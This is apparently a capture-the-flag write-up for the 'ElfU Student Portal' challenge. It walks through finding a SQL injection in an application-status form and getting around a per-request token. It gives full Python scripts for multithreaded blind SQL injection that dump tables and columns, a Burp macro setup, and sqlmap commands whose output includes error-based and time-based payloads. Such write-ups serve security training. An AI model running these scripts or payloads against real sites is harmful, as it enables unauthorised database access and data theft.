

# ElfU Student Portal

## Initial Web App Exploration

The web application basically allows users to apply to ElfU by submitting a simple form, and then allows users to check on their application status by submitting an email address. 


## Check Application Status

If we submit an application with the email `testing123@example.com` to `application-check.php`, and then proceed to check the application status of that email, the web application shows us the message that the application is still pending.


If however, we ask for the application status of a non-existant email, we get back a message that no application was found with that email address.


There is probably some way that the web application is using the email address we supply to it to check on the application status, or at least it checks that the email address exists somewhere. It is likely to be some form of database application behind the scenes.

## SQL Injection Testing

What happens if we give it a typical SQL Injection then? We submit `'@example.com`.


Not only do we throw an error on the page, but the web application gives us a gratuitous amount of information!
1. We now know the exact query made to the database application is `SELECT status FROM applications WHERE elfmail = '<user_input>'`
2. We also know that the database is MariaDB, informing us about the schema of the database.

If we try to submit the same request to the web application again, we see a different error stating that the token is invalid or expired.


Looking into the actual web request made, we see that there is some Base64-encoded parameter labelled `token`. Further exploration into where this token comes from shows that the token is generated when a GET request is made to `validator.php`.


Hence, we need to make a request to `validator.php` prior to our SQL Injection so that we have a valid token.

## Fixing Our SQL Injection Query

Let's see what happens if we grab a valid token from `validator.php` and submit a syntactically correct SQL query with our injection such as `asdifj' UNION SELECT 1 -- ` in order to guess at what happens if the query gets back a response of `1`. We use the following <a href='src/test.py'>python script</a> to perform this test.

```
import requests
import bs4
import urllib.parse


def get_token():
    validator_req = "https://studentportal.elfu.org/validator.php"
    validator_res = requests.get(validator_req)
    token = validator_res.content.decode('utf-8').replace('=','%3D')
    return token
       
def sql_query(query):
    query = urllib.parse.quote(query)
    application_req = "https://studentportal.elfu.org/application-check.php"
    application_req += "?token=" + get_token() + "&elfmail=" + query
    application_res = requests.get(application_req)
    response = bs4.BeautifulSoup(application_res.content, features="html.parser").p.text.strip()
    return response


query = "asdifj' UNION SELECT 1 -- "
print(sql_query(query))
```


We get an interesting message regarding Krampus' secrets. Perhaps we should spend some more time digging in the database.

## Blind SQL Injection (The Python Way)

Since the results of the SQL Injection are not directly dumped back to us on the client side, we will need to make use of Blind SQL Injection techniques in order to infer the dumped data. At this point, it may seem that using an automated tool such as `sqlmap` would be a good idea. However, since there is a need to get a new token each time we make a web request, we would need to integrate the call to `validator.php` into the script. This is possible, albeit painful if you don't know what you're doing, by integrating `sqlmap` with `burp` or using tamper scipts in `sqlmap` to add in the token from `validator.php`. For the sake of education and in the spirit of self-sufficiency, I opted to script out the entire Blind SQL Injection process instead. If you want the `sqlmap` way, click <a href='#blind-sql-injection-the-sqlmap-way'>here</a>.

Since we know we will get a response that tells us when no applications are found for a given SQL query, we can make use of Boolean-Based SQL Injection to get our dumped data.

Our query will look like:

`SELECT status FROM applications WHERE elfmail = 'asdifj' UNION SELECT <column_name> FROM <table_name> WHERE <column_name> LIKE '<payload>%'`

We use `asdifj` as our dummy search query to ensure that the original query returns no results.

We then do a `UNION` to add another query to the original.

Since the original query had just one column (`status`), we can only have one column in our new query.

We need to specify a `table_name` and a `column_name`.

The final part of the new query is a `LIKE` statement, that allows us to match substrings instead of the entire word. The `%` symbol denotes a wildcard for zero or more characters, and it will be appended to the end of our `payload` variable.

Our `payload` will be made up of a set of characters that we would like to have the script brute force through. If a match is found, we will add another character to the payload and continue to run through the whole character set until no more matches are found.

If we put all that in a for loop for a given character set and look at the responses, we can enumerate any data inside the database. Admittedly, this can be a very slow process depending on the character set. However, since each request is independent of each other, we can use multithreading to drastically speed up the process. You will find all this implemented in the following <a href='src/dump_tables.py'>python script</a> which will basically dump out all the table names.

```
import requests
import threading
import queue
import bs4
import urllib.parse
import sys

char_set = list("./0123456789abcdefghijklmnopqrstuvwxyz")
payloads = ['']
results = []
que = queue.Queue()
threads = []


def sql_dump(payload):
    for char in char_set:
        x = threading.Thread(target=lambda que,
                             payload, char:
                             que.put(sql_query(payload, char)),
                             args=(que, payload, char))
        threads.append(x)
        x.start()
    for thread in threads:
        thread.join()
    temp = []
    while not que.empty():
        temp.append(que.get())
        threads.pop()
    if True not in temp:
        results.append(payload)

def get_token():
    validator_req = "https://studentportal.elfu.org/validator.php"
    validator_res = requests.get(validator_req)
    token = validator_res.content.decode('utf-8').replace('=','%3D')
    return token
       
def sql_query(payload, char):
    query = "asdifj' UNION SELECT table_name FROM information_schema.tables WHERE table_name LIKE '" + payload + char + "%"
    query = urllib.parse.quote(query)

    application_req = "https://studentportal.elfu.org/application-check.php"
    application_req += "?token=" + get_token() + "&elfmail=" + query
    application_res = requests.get(application_req)

    response = bs4.BeautifulSoup(application_res.content, features="html.parser").p.text.strip()
    if response != "No application found!":
        payloads.append(payload + char)
        print(payload + char + '\n', end='')
        return True
    return False
    

while payloads:
    payload = payloads.pop(0)
    sql_dump(payload)
print(results)
```


It takes about 10 minutes to get the results. Out of all the tables, the one that most interests us is `krampus`. We make some modifications to the query in the previous code to dump the column names from the `krampus` table. You can find the python script <a href='src/dump_columns.py'>here</a>.



So there are only 2 columns. We are interested in `path` as it should tell us where the files with the flag should be. Again, we make some modifications to the query in order to dump out the data in `path` of `krampus`. You can find the python script <a href='src/dump_data.py'>here</a>.


## Blind SQL Injection (The SQLmap Way)

`sqlmap` is a really fantastic tool for dumping a database, once you've managed to get it to the injection point. That is easier said than done for this challenge. The hint that is given for this challenge was to use tamper scripts to deal with the token parameter. We already know that the token comes from making a GET request to `validator.php`, and we simply want to have `sqlmap` use that for the `token` parameter while it does its testing. My experience with trying to do this was not that successful, so I turned to `burp` instead.

_Addendum: Someone pointed out that we can use `--eval` to not need burp to handle the token. You can find how to use `--eval` to solve this challenge <a href='#addendum-using---eval'>here</a>. To learn more about `--eval`, click <a href='http://aetherlab.net/2014/07/advanced-sqlmap-features-eval/'>here</a>_

### Dealing With The Token Using Burp Macros

`burp` is another great penetration testing tool that allows you to intercept your web requests and easily modify them. It also captures your HTTP history, which is very helpful for looking at what goes on behind the browser as you explore a site. Burp isn't the easiest tool to figure out on your own, but it is definitely worth your while to get started with it. Of all the tools burp provides, I recommend starting with learning how to use the `repeater` tool, which is the tool I most frequently use to adjust small parts of my web requests and see how the server responses change.

Burp macros allow you to tell burp to do some simple things like parameter substitution for a given scope automatically. We will need to make use of this feature to make a request to `validator.php`, grab the token that is returned in the response body, and then substitute it into the `token` parameter of our GET request to `application-check.php`.

We start by starting burp, and simply using the site to grab a few requests. Specifically, we want to capture the request to `validator.php`.

We then navigate to `Project options > Sessions`. Scroll down to the `Macros` section, and click `Add`.


Select the request for `validator.php`, and click `OK`.


Name the macro anything you want. I named it `Fetch Token`. Then, click `Configure item`, then click `Add`.


You will come to the `Define Custom Parameter` window. Specify a `Parameter name`, such as `token`. Then, at the bottom of the window, you will see the response from `validator.php`. We want to click and highlight over the token itself. Burp will then automatically figure out the regex that will match that part of the request. Once we have the token highlighted, make sure to chech the box labelled `Extract from regex group`. Click `OK` 3 times to return to the main burp window.


The macro you have just created will grab the custom parameter by making a request to `https://studentportal.elfu.org/validator.php` and save the part of the response specified by the regex as `token`. Now all we need to do is to tell burp to activate this macro when we make any request to `https://studentportal.elfu.org/` and replace the `token` parameter with what is returned by the macro. We do this by setting `Session Handling Rules`. Click `Add` in the `Session Handling Rules` section of `Project options > Sessions`.

Rename the `Rule Description` to be anything, such as `Replace token`. Then click `Add > Run a macro` under `Rule Actions`.


You should see the macro you created in the `Select macro` box. Select the macro you created. Select the radio button for `Update only the following parameters`, and click `Edit`. In the popup window, type in `token` (which is the parameter name in the GET request to `application-check.php`) and click `Add`. Then click `Close` and then `OK`.


In the window with your `Rule Description`, select the `Scope` tab. You will need to check the checkbox for `Proxy (use with caution)` as we will be proxying `sqlmap` through burp. For `URL Scope`, you can choose either `include all URLs` if you don't want to setup your scope, or `use suite scope [defined in Target tab]`. Click `OK`. 


### Testing The Macro And Session Handling Rule

Now that everything is set up, if we send a new request to `application-check.php` without touching the `token` parameter, we see that the token automatically updates, and we no longer get the error message saying that our token is expired or invalid.


### Proxying SQLmap To Burp

With burp configured, we now turn our attention to `sqlmap`. In order for `sqlmap` to get to the point of dumping out the data in the database, we will need it to first detect the injection point. In addition to specifying the url with the `-u` flag (make sure to include the GET parameters for `elfmail` and `token`), we will need to specify `--proxy` to be our burp proxy address so that our burp macro is used. The `--risk` flag should be set to `3` as it is needed to detect Blind SQL injection points. In order to speed up the process of detection, we can tell `sqlmap` some of the things we already know, such as `-p elfmail` which tells it that the injectable parameter is `elfmail`, and `--dbms MySQL` which tells it that the database is in MySQL. Lastly, we specify `--threads 10` to make sure there are as many threads working as possible.

```
$ sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=asdfg&token=asdfg" -p elfmail --proxy "http://127.0.0.1:8080" --risk 3 --dbms MySQL --threads 10
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.3.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:27:54 /2019-12-27/

[19:27:54] [INFO] testing connection to the target URL
[19:27:56] [INFO] checking if the target is protected by some kind of WAF/IPS
[19:27:57] [INFO] testing if the target URL content is stable
[19:27:59] [INFO] target URL content is stable
[19:28:01] [INFO] heuristic (basic) test shows that GET parameter 'elfmail' might be injectable (possible DBMS: 'MySQL')
[19:28:03] [INFO] heuristic (XSS) test shows that GET parameter 'elfmail' might be vulnerable to cross-site scripting (XSS) attacks
[19:28:03] [INFO] testing for SQL injection on GET parameter 'elfmail'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) value? [Y/n] n
[19:28:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:28:06] [WARNING] reflective value(s) found and filtering out
[19:28:22] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[19:28:40] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[19:28:44] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[19:28:52] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[19:28:56] [INFO] GET parameter 'elfmail' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[19:28:56] [INFO] testing 'MySQL inline queries'
[19:28:57] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:29:12] [INFO] GET parameter 'elfmail' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[19:29:12] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:29:12] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:29:16] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[19:29:25] [INFO] target URL appears to have 1 column in query
[19:30:06] [INFO] target URL appears to be UNION injectable with 1 columns
GET parameter 'elfmail' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 70 HTTP(s) requests:
---
Parameter: elfmail (GET)
    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: elfmail=asdfg' OR (SELECT 7845 FROM(SELECT COUNT(*),CONCAT(0x7162707171,(SELECT (ELT(7845=7845,1))),0x717a6a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'sqiH'='sqiH&token=asdfg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: elfmail=asdfg' AND (SELECT 9036 FROM (SELECT(SLEEP(5)))koTd) AND 'TLNN'='TLNN&token=asdfg
---
[19:46:07] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[19:46:07] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/studentportal.elfu.org'

[*] ending @ 19:46:07 /2019-12-27/
```

### Addendum: Using `--eval`

Someone pointed out to me that `sqlmap` has an `--eval` function that allows you to run any python code before `sqlmap` does its injection. Out of all the methods I have tried for this challenge, this was by far the most straightforward and powerful way that I have picked up. The command below includes the python script for grabbing the token from `validator.php` and saving it to the `token` variable. Apparently this can be done as `sqlmap` saves all request parameters with the same variable name, allowing us to access and modify each of them using `--eval`.

```
$ sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=asdfg&token=asdfg" -p elfmail --risk 3 --dbms MySQL --threads 10 --eval "import requests;token=requests.get('http://studentportal.elfu.org/valid
ator.php').content.decode('utf-8');"
```

### Dumping Only The Interesting Parts Of The Database

Once `sqlmap` has detected the injection point, we can begin dumping the database. Now, the database will be huge, so it wouldn't be wise to simply dump everything. We are only interested in getting the flag. So we should only dump out the things that look suspicious.

#### Get The Current Database

Let's first get the name of the current database we are in.

```
$ sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=asdfg&token=asdfg" -p elfmail --proxy "http://127.0.0.1:8080" --risk 3 --dbms MySQL --threads 10 --current-db
```

```
current database: 'elfu'
```

#### Get The Tables In The Current Database

Next, we should find out what tables are in the `elfu` database.

```
$ sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=asdfg&token=asdfg" -p elfmail --proxy "http://127.0.0.1:8080" --risk 3 --dbms MySQL --threads 10 -D elfu --tables
```

```
Database: elfu
[3 tables]
+--------------+
| applications |
| krampus      |
| students     |
+--------------+
```

#### Dumping Only The Krampus Table

We know from a previous step that we are looking for Krampus' secrets. So it makes sense that the `krampus` table is what we want. So we dump the contents of `krampus`.

```
$ sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=asdfg&token=asdfg" -p elfmail --proxy "http://127.0.0.1:8080" --risk 3 --dbms MySQL --threads 10 -D elfu -T krampus --dump
```

```
Database: elfu
Table: krampus
[6 entries]
+----+-----------------------+
| id | path                  |
+----+-----------------------+
| 1  | /krampus/0f5f510e.png |
| 2  | /krampus/1cc7e121.png |
| 3  | /krampus/439f15e6.png |
| 4  | /krampus/667d6896.png |
| 5  | /krampus/adb798ca.png |
| 6  | /krampus/ba417715.png |
+----+-----------------------+
```

## Finding The Scraps Of Paper

If we navigate to https://studentportal.elfu.org/krampus, we will come across the following message.


Thankfully, we already have the full path of the files we need. If we grab all the images and reassemble the paper, we get the following message.


